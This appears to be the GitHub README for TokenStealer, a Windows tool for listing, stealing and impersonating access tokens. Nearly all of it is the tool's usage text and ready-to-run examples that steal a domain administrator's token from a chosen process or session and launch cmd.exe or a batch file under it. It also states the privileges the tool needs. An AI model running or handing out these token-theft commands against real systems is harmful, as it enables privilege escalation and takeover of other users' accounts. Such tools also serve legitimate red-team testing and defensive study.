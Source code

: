 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br>
Clearly, you will require Impersonation or AssignPrimary privilege and Debug privilege to access all processes.<br>
Typically, you would run the tool with the highest local privileges, such as SYSTEM.
<br><br>
```
TokenStealer.exe
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] v1.0 @decoder_it 2023<br>

[!] Usage:<br>
         -l: list all user's token<br>
         -e: list all user's token with extended info -> [user]:[token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>]:[pid]:[SessionId]<br>
         -p: <pid> list/steal  token from specfic  process pid
         -u: <user> list/steal token of user
         -c: <command> command to execute with token 
         -t: force use of impersonation Privilege 
         -b: <token level> needed token type: 1=Primary,2=Impersonation,3=Delegation 
         -s: <SessionId> list/steal token from specific Session ID

=Examples=
TokenStealer.exe -e -b 1 </b> -> list all primary tokens
TokenStealer.exe -l -p 100 </b>-> list all tokens in process pid 100
TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available
TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t -> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary
TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 -> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available
TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -s 2 -> steal a token of the user in specific SessionID and execute an interactive  command shell using the AssingPrimary privilege if available

```
<img src="https://github.com/decoder-it/TokenStealer/blob/master/Capture.PNG" alt="Alt text" title="Optional title">




